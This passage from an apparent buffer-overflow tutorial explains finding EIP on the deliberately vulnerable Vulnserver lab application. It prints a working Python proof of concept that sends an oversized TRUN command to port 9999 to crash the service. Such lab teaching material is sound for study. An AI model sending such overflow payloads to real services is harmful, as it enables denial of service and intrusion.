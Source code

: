 ## Find The EIP

I've made a copy of my master folder and imported it into VSC. I am starting with script number 2 because script 1 is a simple fuzzing script, which we do not need. We can assume that we will be given an example exploit POC telling us the vulnerable function, if there is one, the port the service is running on, and the buffer length. This is all the information we need to complete a "vanilla" BOF.

Here is what the POC for Vulnserver looks like.

```shell
#!/usr/bin/python

import sys, socket

if len(sys.argv) < 2:
    print "\nUsage: " + sys.argv[0] + " <target_ip>\n"
    sys.exit()

cmd = "TRUN /.:/"       # Vulnerable function
junk = "\x41" * 3000    # Fill buffer with A's
end = "\r\n"

buffer = cmd + junk + end

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 9999))
s.send(buffer)
s.recv(1024)
s.close()
```

From the above POC I can see that the vulnerable function is ```TRUN /.:/```, the buffer length is 3,000 bytes and the port it is running on is 9999. If you look at the top of script 2 you can see variable inputs for these values.

![EIP](/assets/img/bof/pic4.png)
